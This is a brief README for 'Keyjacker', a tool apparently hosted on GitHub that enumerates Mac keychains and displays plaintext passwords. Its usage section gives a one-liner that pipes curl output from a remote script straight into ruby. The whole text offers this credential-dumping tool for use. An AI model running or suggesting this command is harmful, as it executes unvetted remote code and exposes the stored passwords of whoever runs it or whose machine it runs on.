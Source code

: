 Keyjacker
=========
Keyjacker enumerates Mac keychains and displays plain text passwords.

Usage
---------
Run the following from any terminal with curl/ruby (default on most Macs).

```bash
curl -L https://raw.github.com/ipwnstuff/keyjacker/master/keyjacker.rb | ruby
```
